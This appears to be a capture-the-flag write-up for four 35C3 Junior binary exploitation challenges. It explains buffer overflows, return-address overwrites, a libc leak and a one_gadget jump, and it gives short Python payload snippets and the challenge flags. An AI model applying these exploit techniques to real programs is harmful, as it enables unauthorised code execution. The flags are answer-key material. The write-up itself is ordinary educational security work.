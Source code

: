 # 35C3 Junior

  - [PWN](#pwn)
    - [1996](#1996)
    - [poet](#poet)
    - [stringmaster1](#stringmaster1)
      - [What the program do ?](#what-the-program-do)
      - [Analysis](#analysis)
      - [flow](#flow)
    - [stringmaster2](#stringmaster2)
      - [Analysis](#analysis-1)
      - [flow](#flow-1)

<style>
* {
    font-family: 'DejaVu Sans Mono';
}
h1 {
    font-weight: bold;
    margin-bottom:10px;
}
h2 {
    font-weight: bold;
    margin:0px auto;
    color:#3366ff;
    margion-top:40px;
}
h3 {
    font-weight: bold;
}
h4, h5, h6 {
    font-weight: bold;
}
.word {
    display:inline;
    background-color:rgba(137, 142, 144, 0.3);
}
</style>


## PWN

### 1996
- type : Easy <font color='blue'>BOF</font>
- Directly overlap to return address to <font color='red'>spawn_shell() function </font> 
    ```python
    payload = '\x00'*1024 + '\x00'*0x18 + p64(shell_add)
    ```

> 35C3_b29a2800780d85cfc346ce5d64f52e59c8d12c14

### poet

- type : <font color='blue'>BOF</font>
- Analysis :        
    <img src='./img/02' width=400px></img>
    - Enter poet : it will be push to a complex function to calculate **POINTS**, but we don't need to care about the pointFunction!
      - 0x00000000004007b7  <rate_poem>

    - Enter author : enter author can overlap point!!!

- payload
    ```python
    payload = '\x00'*0x40 + p64(0xf4240)
    ```

> 35C3_f08b903f48608a14cbfbf73c08d7bdd731a87d39


### stringmaster1

- type : <font color='blue'>BOF</font>

#### What the program do ?
```md
[1] swap <index1> <index2>                   (Cost: 1)
Swaps the char at index1 with the char at index2
[2] replace <char1> <char2>                  (Cost: 1)
    Replaces the first occurence of char1 with char2
[3] print                                    (Cost: 1)
    Prints the current version of the string
[4] quit
    Give up and leave the game

String1: jkecntplqr
String2: eksbqudlvf


Enter the command you want to execute:
[1] swap <index1> <index2>                   (Cost: 1)
[2] replace <char1> <char2>                  (Cost: 1)
[3] print                                    (Cost: 1)
[4] quit
```

- The program generate 2 arbitrary strings, and we need to use swap, replace or print function to let string1=String2

- swap : the input will be modified to **unsigned**, so we can't pass negative number to leak
    ```C
    unsigned int i1, i2;
    cin >> i1 >> i2;
    if (cin.good() && i1 < s.length() && i2 < s.length()) {
        swap(s[i1], s[i2]);
    }
    ```

- replace : find what you enter and replace by input2
    ```C
    char c1, c2;
    cin >> c1 >> c2;
    auto index = s.find(c1);
    cout << c1 << c2 << index << endl;
    if (index >= 0) {
        s[index] = c2;
    }
    ```

#### Analysis

- The Bugs of the code comes from : 
    ```C++
    auto index = s.find(c1);
    ```
- we know that : strings end with <font color='blue'>\x00</font>, s.length() will be confined , but s.find won't. so, we can replace the known address or value, then overflow to return_addr

#### flow
1. overlap until the return addr            
    <img src='./img/03' width=500px></img>

2. replace return_main to return_shell
    ```python
    shellAddres = p32(0x4011a7)
    ```
3. Some 'a' will cause Segment Fault, so we need to compensate it by \x00
    ```python
    r.sendlineafter('> ', 'replace')
    r.sendline('a')
    r.sendline('\x00')
    ```

> 35C3_a6a9d10c61a652d23fbd0e9f73e638dac093472c

### stringmaster2

- type : <font color='blue'>BOF</font>

#### Analysis
- The same as stringmaster1, but it doesn't have <font color='blue'>spawn_shell function</font>, so we need to use **ROP or One_Gadget**


#### flow 

1. Overflow until return address

2. leak libc from <font color='blue'>libc_start_main</font>
   ```python
   leak = r.recvuntil('\xff\xff\xff')
   libc_start_main = leak[-12:-6]
   libc_start_main = list(libc_start_main)
   libc_start_main.reverse()
   libc_start_main = (''.join(libc_start_main)).encode('hex')

   libc_base = int(libc_start_main, 16) - 0xe7 - 0x21ab0
   ```

3. replace libc_start_main by <font color=blue>one_gadget</font>
    - because libc only diff from the Least 4 bytes, provided we can modify it
   ```python
   one_gadget = 0x10a38c
   payload = libc_base+one_gadget

   for i, val in enumerate(shell):
   replaceAndSwap(val, i)
   ```

> 35C3_fb23c497dbbf35b0f13b9d16311fa59cf8ac1b02

